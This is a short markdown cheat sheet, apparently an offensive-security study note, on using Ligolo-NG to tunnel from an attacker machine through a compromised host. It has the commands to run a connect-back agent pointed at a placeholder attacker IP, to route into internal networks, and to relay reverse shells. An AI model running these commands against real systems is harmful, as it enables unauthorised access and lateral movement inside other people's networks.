 # Ligolo-NG

## [Download](https://github.com/nicocha30/ligolo-ng)

## Usage
* Agent Setup
  - Upload agent to compromised host
  - Execute agent
  ```bash
  # Linux
  ./agent -connect <attackerIP:11601>
  ```
  ```powershell
  # Windows
  ./agent -connect <attackerIP:11601>
  ```
* Attacker Machine Setup
  - Create interface for Ligolo to use
  ```bash
  sudo ip tuntap add user <username> mode tun ligolo

  sudo ip link set ligolo up

  # Verify iface added
  ip addr show ligolo
  ```
* Start Ligolo-NG
  ```bash
  proxy
  ```
* Run the agent on the pivot machine
  ```bash
  agent -connect <attacker IP:11601>
  ```
  - Should see agent joined on the attacker machine
* Select Agent on Attacker machine
  ```bash
  session
  ```
* Add route on attacker machine
  ```bash
  sudo ip route add <pivot network> dev ligolo
  # Example: sudo ip route add 10.10.11.0/24 dev ligolo
  ```
* In the proxy interface, start the tunnel
  ```bash
  start
  ```
* Setup is done, you should be able to access the proxy environment. No proxychains, etc required

### Setup to access the pivot host (Pivot host will be unavailable when ligolo is running)
* Add special route with *magic* ip address
  ```bash
  sudo ip route add 240.0.0.1/32 dev ligolo
  ```
  - accesses 127.0.0.1 on the pivot box

### Setup for reverse shell
* In the proxy shell on the attack machine, add a listener
  ```bash
  listener_add --addr 0.0.0.0:30000 --to 127.0.0.1:10000 --tcp
  ```
  - Adds a listener on the agent machine, port 30000 and forwards to us on port 10000

